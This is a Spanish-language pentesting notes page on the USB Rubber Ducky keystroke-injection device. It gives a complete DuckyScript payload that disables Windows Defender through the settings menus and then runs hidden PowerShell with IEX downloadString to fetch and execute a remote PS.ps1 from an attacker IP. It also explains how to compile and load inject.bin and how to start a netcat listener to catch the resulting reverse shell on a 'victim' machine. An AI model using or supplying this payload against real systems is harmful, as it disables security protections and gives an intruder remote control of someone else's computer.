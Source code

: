 ```yaml
---
icon: duck
---
```


# Rubber Ducky

Es un USB aparentemente normal, pero en su interior tiene un hardware que simula ser un teclado, por lo que cuando se conecta a un dispositivo, este lo reconoce como un teclado y permite ejecutar scripts escribiendolo todo de forma automatica como un teclado programable a tu manera.

## <mark style="color:purple;">Explicación practica</mark>

Podremos programar el USB con su propio lenguaje de script que esta establecido en la siguiente pagina:

URL = [Pagina Script Rubber Ducky](https://payloadstudio.com/community/)

Por ejemplo cuando queramos ejecutar un script en algun equipo como por ejemplo en windows, podremos programar al USB para que cuando se inserte de forma automatica haga una serie de opciones las cuales hayamos programado, por ejemplo si queremos que desactive el firewall de windows y se ejecute un script que creara una `Reverse Shell`, podremos utilizar el siguiente script:

```txt
REM Turn off Windows Defender
REM
DELAY 1000
CTRL ESC
DELAY 400
STRING pr
ENTER
DELAY 1000
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
ENTER
DELAY 1000
SPACE
DELAY 400
LEFT
DELAY 400
ENTER
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
ALT F4
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden "IEX(New-Object Net.WebClient).downloadString('http://<IP>/PS.ps1')"
ENTER
```

Ahora solo tendremos que darle a la opcion `Default US`, darle a `Lenguage: us.json` y establecerlo como `es.json` para tener el teclado en español y que los caracteres especiales no fallen, echo esto bajaremos abajo del todo y le daremos a la opcion `Generate Payload`, lo que nos generara un archivo llamado `inject.bin` el cual sera el que tendremos que pegar en el interior del pendrive.

Para hacer esto, tendremos que abrir el pendrive la carcasa y extraer la `micro SD` que lleva conectada, mediante un USB adaptador de `micro SD` lo conectaremos al equipo para pegar en el interior de la carpeta `SD` el archivo `.bin`

Echo esto anterior desconectaremos la `SD` y la volveremos a coenctar al USB `Rubber Ducky`

Antes de conectar el USB al equipo Victima, tendremos que tener en nuestro equipo Atacante un servidor abierto para que se descargue nuestro archivo malicioso llamado `PS.ps1` de powershell que hayamos programado para objetener una `Reverse Shell`.

```shell
rlwrap nc -nvlp <PORT>
```

Con esto estaremos a la escucha junto con cualquier direccion IP establecida como `0.0.0.0`

Por lo que cuando conectemos el USB al equipo Victima, se desactivara el `Windows Defender` y se ejecutara el script para obtener acceso a la maquina Victima.

Con esto se puede hacer muchas mas cosas que una `Reverse Shell`, pero tiene sus limitaciones igualmente.
